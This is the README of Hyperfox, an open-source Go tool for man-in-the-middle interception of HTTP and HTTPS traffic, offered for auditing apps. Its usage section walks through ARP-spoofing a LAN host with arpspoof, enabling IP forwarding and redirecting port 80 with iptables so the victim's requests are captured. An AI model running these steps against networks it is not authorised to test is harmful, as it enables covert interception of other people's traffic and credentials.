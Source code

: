 # Hyperfox

Hyperfox is a security tool for Man In The Middle operations over HTTP and
HTTPs.

Hyperfox can be used as a tool for auditing a wide range of applications,
including mobile applications that do not properly verify certificates or that
do not use certificates at all.

The `hyperfox` tool is a default distribution of the Hyperfox proxy.

Hyperfox can also be used as a library to develop special proxies with [Go][1],
if you're interested on programming a special proxy for any special MITM
operation you may read the library documentation at [godoc.org][6].

## Features of the Hyperfox tool

The Hyperfox tool has some useful features:

* Saves all the traffic between client and server.
* Can modify server responses before arriving to the client.
* Can modify client requests before sending them to the destination server.
* Supports SSL/TLS.
* Supports streaming.

## Getting Hyperfox

You can download a pre-compiled binary of the Hyperfox tool:

* [Linux x86_64](https://menteslibres.net/files/hyperfox/hyperfox-1.0-linux-x64)
* [OSX x86_64](https://menteslibres.net/files/hyperfox/hyperfox-1.0-darwin-x64)

Once you've downloaded the appropriate binary move it to `$HOME/bin/hyperfox`
and call it using the full path:

```
$ ~/bin/hyperfox -h
```

If you have `$HOME/bin` in your `$PATH`, you may as well call `hyperfox`
without the full path:

```
$ hyperfox -h
```

If you have [Go][1] and [git][2] you can use `go get` to download the source
and compile the Hyperfox tool by yourself:

```sh
$ go get github.com/xiam/hyperfox
$ hyperfox -h
```

## Usage example

I. Make sure the [dsniff][5] tool is installed in the MITM machine, we are
going to use the `arpspoof` tool (part of [dsniff][5]) to alter the ARP table
of a specific machine on LAN to make it redirect its traffic to us instead of
to the legitimate LAN gateway. This ancient technique is known as
[ARP spoofing][4].

II. Identify the LAN IP of the machine you want to intercept traffic for. Let's
suppose you want to intercept traffic from `10.0.0.146`.

III. Identify the IP of your router and the name of the interface you're
connected with, let's say your router is `10.0.0.1` and you're connected to
the router through `wlan0`.

```
$ sudo route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.0.0.1        0.0.0.0         UG    0      0        0 wlan0
```

IV. Put the MITM machine in [IP forwarding][3] mode.

```sh
# Linux
$ sudo sysctl -w net.ipv4.ip_forward=1

# FreeBSD/OSX
$ sudo sysctl -w net.inet.ip.forwarding=1
```

V. Run hyperfox (as a normal, unprivileged user) within a writable directory:

```
$ mkdir -p ~/tmp/hyperfox-session
$ cd ~/tmp/hyperfox-session
$ hyperfox
2013/08/25 08:21:36 Hyperfox tool, by Carlos Reventlov.
2013/08/25 08:21:36 http://www.reventlov.com

2013/08/25 08:21:36 Listening for HTTP client requests at 0.0.0.0:9999.
```

If you want to analyze HTTPs instead of HTTP, use the `-s` flag and provide
appropriate
[cert.pem](https://github.com/xiam/hyperfox/raw/master/ssl/cert.pem) and
[key.pem](https://github.com/xiam/hyperfox/raw/master/ssl/key.pem) files.

```sh
$ hyperfox -s -c ssl/cert.pem -k ssl/key.pem
```

VI. Prepare the machine to forward everything but the port hyperfox will
intercept (`80`, for plain HTTP), instead tell it to forward the traffic on
port `80` to the `9999` port on `127.0.0.1` (where `hyperfox` is listening).

```sh
# Linux (HTTP)
$ sudo iptables -A PREROUTING -t nat -i wlan0 -p tcp --destination-port 80 -j \
REDIRECT --to-port 9999

# FreeBSD/OSX (HTTP)
$ sudo ipfw add fwd 127.0.0.1,9999 tcp from any to any 80 via wlan0
```

VII. Run `arpspoof` to make `10.0.0.146` think our host is `10.0.0.1` (the
LAN's legitimate gateway), once the ARP spoofing is completed, `10.0.0.146` will
start to send its traffic through our machine.

```sh
$ sudo arpspoof -i wlan0 -t 10.0.0.146 10.0.0.1
```

VIII. !???

IX. Profit!!

Once `192.168.1.146` starts to send some traffic, a `capture` directory will
be created:

```
$ cd ~/tmp/hyperfox-session
$ ls
capture
$ cd capture
$ find .
./client
./client/10.0.0.146
./client/10.0.0.146/a.adcloud.net
./client/10.0.0.146/a.adcloud.net/adcloud
./client/10.0.0.146/a.adcloud.net/adcloud/12345
./client/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699.head
./client/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699
...
./server
./server/10.0.0.146
./server/10.0.0.146/a.adcloud.net
./server/10.0.0.146/a.adcloud.net/adcloud
./server/10.0.0.146/a.adcloud.net/adcloud/12345
./server/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699.head
./server/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699
./server/10.0.0.146/a.adcloud.net/adcloud/12345/GET-20130825-133421-734021699.body
...
```

You can see whatever is happening by watching hyperfox's output:

```
-> 10.0.0.146:61716 m.vanityfair.com: GET /business/features/2011/05/paul-allen-201105 HTTP/1.1 0b
<- 10.0.0.146:61716 m.vanityfair.com: GET /business/features/2011/05/paul-allen-201105 HTTP/1.1 -1b 200
-> 10.0.0.146:61716 m.vanityfair.com: GET /static/css/mobify.css?1335486443 HTTP/1.1 0b
-> 10.0.0.146:61717 m.vanityfair.com: GET /static/mcss/561/stag-carmot-vf.css?1370835026 HTTP/1.1 0b
-> 10.0.0.146:61718 www.vanityfair.com: GET /etc/clientlibs/foundation/jquery.js HTTP/1.1 0b
-> 10.0.0.146:61719 dl.dropbox.com: GET /u/123456/vf-mobile/js/cn.mobifycore.js HTTP/1.1 0b
<- 10.0.0.146:61718 www.vanityfair.com: GET /etc/clientlibs/foundation/jquery.js HTTP/1.1 0b 304
```

## License

> Copyright (c) 2012-2013 José Carlos Nieto, https://menteslibres.net/xiam
>
> Permission is hereby granted, free of charge, to any person obtaining
> a copy of this software and associated documentation files (the
> "Software"), to deal in the Software without restriction, including
> without limitation the rights to use, copy, modify, merge, publish,
> distribute, sublicense, and/or sell copies of the Software, and to
> permit persons to whom the Software is furnished to do so, subject to
> the following conditions:
>
> The above copyright notice and this permission notice shall be
> included in all copies or substantial portions of the Software.
>
> THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
> EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
> MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND
> NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE
> LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION
> OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION
> WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

[1]: http://golang.org/doc/install
[2]: http://git-scm.com
[3]: http://en.wikipedia.org/wiki/IP_forwarding
[4]: http://en.wikipedia.org/wiki/ARP_spoofing
[5]: http://monkey.org/~dugsong/dsniff/
[6]: http://godoc.org/github.com/xiam/hyperfox/proxy
